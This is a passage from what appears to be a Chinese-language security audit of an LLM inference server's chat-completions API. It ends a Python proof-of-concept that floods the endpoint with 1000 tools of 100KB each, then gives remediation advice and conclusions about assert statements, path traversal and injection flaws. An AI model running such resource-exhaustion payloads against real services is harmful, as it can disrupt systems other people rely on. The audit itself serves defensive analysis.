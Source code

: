 ```python
                "messages": [{"role": "user", "content": "use tools"}],
                "tools": [
                    {
                        "type": "function",
                        "function": {
                            "name": f"func_{i}",
                            "description": "A" * 100000  # 100KB per tool
                        }
                    } for i in range(1000)
                ]
            }
        }
    ]
    
    for attack in attacks:
        try:
            print(f"Attempting {attack['name']}...")
            response = requests.post("http://localhost:8000/v1/chat/completions",
                                   json=attack['payload'], timeout=30)
            print(f"Response: {response.status_code}")
        except Exception as e:
            print(f"Error in {attack['name']}: {e}")
```

## 5. 检测和防护建议

### 5.1 立即修复措施
1. **替换所有assert语句**为显式错误检查
2. **加强输入验证**，特别是文件路径和JSON数据
3. **限制base64数据大小**和tensor维度
4. **实施模板沙箱**或禁用用户自定义模板
5. **添加请求大小限制**和超时机制

### 5.2 长期安全改进
1. **实施统一的错误处理机制**
2. **添加安全审计日志**
3. **实施请求频率限制**
4. **建立安全测试流程**
5. **定期进行安全代码审查**

## 6. 结论

通过直接检查源代码，我们确认了：

1. **Assert漏洞确实存在** - 45个assert语句分布在关键代码路径中
2. **发现了新的漏洞类型** - 包括反序列化、路径遍历、JSON注入等
3. **漏洞组合攻击的可能性** - 多种漏洞可以组合使用增强攻击效果
4. **测试失败的可能原因** - 生产环境的保护措施确实有效

这些发现证明了深入源代码分析的重要性，也解释了为什么简单的PoC测试可能无法触发漏洞。